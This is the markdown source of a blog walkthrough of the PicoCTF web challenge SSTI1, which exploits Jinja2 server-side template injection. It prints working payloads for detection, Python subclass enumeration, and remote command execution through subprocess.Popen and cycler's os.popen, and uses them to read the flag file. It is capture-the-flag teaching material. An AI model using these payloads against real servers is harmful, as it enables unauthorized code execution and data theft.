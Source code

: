 ```yaml
---
title: 'SSTI1 - A PicoCTF Challenge'
description: 'A step-by-step walkthrough on exploiting Server-Side Template Injection (SSTI) to achieve code execution and capture the flag.'
pubDate: 'Jun 04 2025'
heroImage: '/blog-placeholder-2.jpg'
categories: ["CTF", "PicoCTF", "Web Exploitation"]
---
```


## 🥧 Challenge Overview

**SSTI1** is a web exploitation challenge that asks us to identify and exploit a Server-Side Template Injection (SSTI) vulnerability to retrieve a flag.

We’re given a web interface that includes an input form:

<img src="/ssti1/webview.png" alt="SSTI1 Challenge" style={{ width: "100%" }} />

Our task is to use this input to run code on the server and ultimately access the flag.

---

## 🔍 Required Understanding

To solve this challenge, we need to understand how Server-Side Template Injection works. SSTI happens when unsanitized user input is passed directly into a template engine like Jinja2, enabling us to inject and evaluate code.

A good way to test for SSTI is to inject simple payloads:

```jinja
{{7*7}}, ${7*7}, <%= 7*7 %>, #{7*7}
```

When we input `{{7*7}}`, the output was `49`, confirming that the application is using **Jinja2** as its template engine:

<img src="/ssti1/77.png" alt="SSTI1 7x7 Result" style={{ width: "100%" }} />

---

## 🧩 Exploitation Steps

### 1. Check the Jinja2 Config

To verify our environment, we inspect the config object:

```jinja
{{ config }}
```

It prints out a typical Flask configuration object. Since nothing sensitive is exposed, we proceed.

---

### 2. Enumerate Python Objects

We attempt to enumerate all subclasses of Python’s `object` type using the following payload:

```jinja
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

This reveals many internal Python classes — one of which is the critical:

```
<class 'subprocess.Popen'>
```

This class allows us to execute system commands.

---

### 3. Find the Index of `subprocess.Popen`

To invoke the `Popen` class, we need its exact index in the list. So we enumerate them with:

```jinja
{% for i in range(0, 450) %}
{{ i }} - {{ ''.__class__.__mro__[1].__subclasses__()[i] }}
{% endfor %}
```

This reveals:

```text
356 - <class 'subprocess.Popen'>
```

Perfect. We’ll use index 356 in the next step.

---

### 4. Execute Commands

We test code execution by listing files using `Popen`:

```jinja
{{ ''.__class__.__mro__[1].__subclasses__()[356]('ls', shell=True, stdout=-1).communicate()[0].decode() }}
```

The output confirms that we successfully ran a system command and got:

```text
__pycache__ app.py flag requirements.txt
```

---

### 5. Read the Flag

Now that we have working RCE, we can read the `flag` file:

```jinja
{{ ''.__class__.__mro__[1].__subclasses__()[356]('cat flag', shell=True, stdout=-1).communicate()[0].decode() }}
```

And there it is — the flag.

<img src="/ssti1/flag.png" alt="SSTI1 Flag" style={{ width: "100%" }} />

---

## 💡 Nice to Know

An alternative way to access system commands uses the `cycler` module:

```jinja
{{ cycler.__init__.__globals__['os'].popen('cat flag').read() }}
```

### 🤔 Why Not Use `cycler` First?

In CTFs or real-world apps, the `cycler` method may not always be available. That’s why going through Python's subclass hierarchy is more reliable.

| Method                                    | Strengths                                | Weaknesses                                           |
|------------------------------------------|------------------------------------------|------------------------------------------------------|
| `{{ cycler.__init__.__globals__['os'] }}` | ✅ Short and simple                       | ❌ Might be sandboxed or disabled in secure setups   |
| `{{ subclasses()[index] }}`               | ✅ Works in hardened environments         | ❌ Slightly more work to find the correct index      |

---

## 🧠 Final Thoughts

This challenge shows how powerful SSTI can be when user input is handled carelessly. By understanding how Jinja2 templates interact with Python’s object system, we’re able to move from simple arithmetic to full command execution.

---

## 🔗 Challenge Link

[SSTI1 | PicoCTF Challenge](https://play.picoctf.org/practice/challenge/492?originalEvent=74&page=1)
